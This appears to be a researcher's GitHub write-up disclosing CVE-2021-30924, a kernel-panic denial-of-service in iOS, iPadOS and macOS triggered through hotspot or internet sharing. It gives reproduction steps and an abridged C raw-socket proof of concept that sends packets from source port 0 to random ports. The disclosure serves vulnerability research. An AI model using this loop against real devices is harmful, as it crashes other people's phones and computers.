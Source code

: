 # CVE-2021-30924. PoC for iOS, macOS, iPadOS (DoS)

**Apple has quietly fixed this in iOS(and iPadOS) 15.1 and macOS 12.0 without any kind of public acknowledgement or reward.**

**Updated: Apple only mentioned us for macOS (CVE-2021-30924). They don't give any more comments. ([About the security content of macOS Monterey 12.0.1](https://support.apple.com/en-us/HT212869)).**
## Issue
Kernel panic after send 2+ TCP/UDP packets by attacker device via apple device hotspot net to external network

## Steps
### iPhone, iPad
1) Switch into hotspot mode
2) Attacker connect to iPhone network
3) Attacker send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
4) Kernel panic
### iMac, Mac, MacBook
0) Require internet access on device
1) On "Internet sharing" (on Bluetooth PAN) on victim apple device
2) Bluetooth pair attacker and victim apple device
3) Attacker connect to internet via apple device
4) Attacket send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
5) Kernel panic



## Here is a short proof of concept.
We used raw sockets to form a custom package and send requests from port 0.

```с
...
    tcph->source = htons (0); //here we specify the output port 0
...
    while (1)
    {
        tcph->dest = htons (rand()); //here we specify the input port random
        if (sendto (s, datagram, iph->tot_len ,    0, (struct sockaddr *) &sin, sizeof (sin)) < 0)
        {
            perror("sendto failed");
        }
        else
        {
            printf ("Packet Send. Length : %d \n" , iph->tot_len);
        }
        sleep(1);
    }
...
```
After sending 2 packets(print "Packet Send..."), DoS is called and elf execution can be terminated.

## Our links
Elaman Iskakov - @darling_x0r
Alexey Katkov - @watman27
